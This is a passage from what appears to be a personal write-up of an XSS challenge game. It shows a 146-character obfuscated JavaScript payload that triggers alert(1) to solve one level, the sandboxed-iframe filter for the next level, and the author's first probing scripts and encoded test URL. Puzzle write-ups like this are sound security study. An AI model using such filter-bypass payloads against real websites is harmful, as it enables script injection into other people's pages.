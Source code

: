 After I'd _"won"_ I could see that some people had managed it in considerably less.
`<100` seemed like a good optimisation target, but I'm lazy. Maybe I'll get back to this and improve it later :upside_down_face:

### win with:
```
");_=![]+[]+!![]+{}+{}._;[][_[3]+_[10]+_[6]+_[5]][_[14]+_[10]+_[25]+_[3]+_[5]+_[6]+_[7]+_[14]+_[5]+_[10]+_[6]](_[1]+_[2]+_[4]+_[6]+_[5]+'(1)')()//
```
146 characters


## iframe
### filter
```javascript
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // https://4i.am/?...raw=... just outputs whatever you pass in.
  //
  // Alerting from 4i.am won't count.

  s = '<script>' + s + '<\/script>';
  tag.src = 'https://4i.am/?:XSS=0&CT=text/html&raw=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.setAttribute('onload', 'youWon && alert(1)');
  return tag.outerHTML;
}
```

### comments
Well first thing I want is to actually know what i'm working in, so I try this JS:
```javascript
let x = Object.keys(window);
const div = document.createElement('div');
div.innerText = x.toString();
document.body.appendChild(div);
```
Which should print all the methods and properties of `window` in the frame.
...
Except it doesn't
...

_Please god don't let this be someone trying to be too clever and fucking up iframes in a way that the challenge is impossible._

navigating to the url for that:
```
https://4i.am/?:XSS=0&CT=text/html&raw=%3Cscript%3Elet%20x%20%3D%20Object.keys(window)%3B%0Aconst%20div%20%3D%20document.createElement(%27div%27)%3B%0Adiv.innerText%20%3D%20x.toString()%3B%0Adocument.body.appendChild(div)%3B%3C%2Fscript%3E
```
And popping up dev console, we see that all the code runs in `head` tags...
... so `document.body` doesn't exist when the script runs...
